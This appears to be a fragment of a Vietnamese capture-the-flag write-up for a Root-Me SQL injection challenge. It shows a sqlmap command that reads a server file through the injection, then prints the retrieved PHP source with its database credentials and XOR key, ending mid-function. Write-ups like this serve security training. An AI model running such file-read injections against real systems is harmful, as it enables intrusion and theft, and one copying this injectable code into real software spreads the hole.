 ```py
sqlmap -u "http://challenge01.root-me.org/web-serveur/ch31/?action=members&id=1" --file-read /challenge/web-serveur/ch31/index.php 
...
[04:19:59] [INFO] the local file '/home/kali/.local/share/sqlmap/output/challenge01.root-me.org/files/_challenge_web-serveur_ch31_index.php' and the remote file '/challenge/web-serveur/ch31/index.php' have the same size (3359 B)            
files saved to [1]:
[*] /home/kali/.local/share/sqlmap/output/challenge01.root-me.org/files/_challenge_web-serveur_ch31_index.php (same file)

``` 
- Và đây là source code 
```php
<html>
<header><title>SQL injection - FILE</title></header>
<body>
<h3><a href="?action=login">Authentication</a>&nbsp;|&nbsp;<a href="?action=members">Members</a></h3><hr />

<?php

define('SQL_HOST',      '/var/run/mysqld/mysqld3-web-serveur-ch31.sock');
define('SQL_DB',        'c_webserveur_31');
define('SQL_LOGIN',     'c_webserveur_31');
define('SQL_P',         'dOJLsrbyas3ZdrNqnhx');

function stringxor($o1, $o2) {
    $res = '';
    for($i=0;$i<strlen($o1);$i++)
        $res .= chr(ord($o1[$i]) ^ ord($o2[$i]));        
    return $res;
}

$key = "c92fcd618967933ac463feb85ba00d5a7ae52842";
 
$GLOBALS["___mysqli_ston"] = mysqli_connect('', SQL_LOGIN, SQL_P, "", 0, SQL_HOST) or exit('mysql connection error !');
mysqli_select_db($GLOBALS["___mysqli_ston"], SQL_DB) or die("Database selection error !");

if($_GET['action'] == "login"){
        print '<form METHOD="POST">
                <p><label style="display:inline-block;width:100px;">Login : </label><input type="text" name="username" /></p>
                <p><label style="display:inline-block;width:100px;">Password : </label><input type="password" name="password" /></p>
                <p><input value=submit type=submit /></p>
                </form>';

        if(isset($_POST['username'], $_POST['password']) && !empty($_POST['username']) && !empty($_POST['password']))
        {
                $user = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], strtolower($_POST['username']));
                $pass = sha1($_POST['password']);
                
                $result = mysqli_query($GLOBALS["___mysqli_ston"], "SELECT member_password FROM member WHERE member_login='".$user."'");
                if(mysqli_num_rows($result) == 1)
                {
                        $data = mysqli_fetch_array($result);
                        if($pass == stringxor($key, base64_decode($data['member_password']))){
                                // authentication success
                                print "<p>Authentication success !!</p>";
```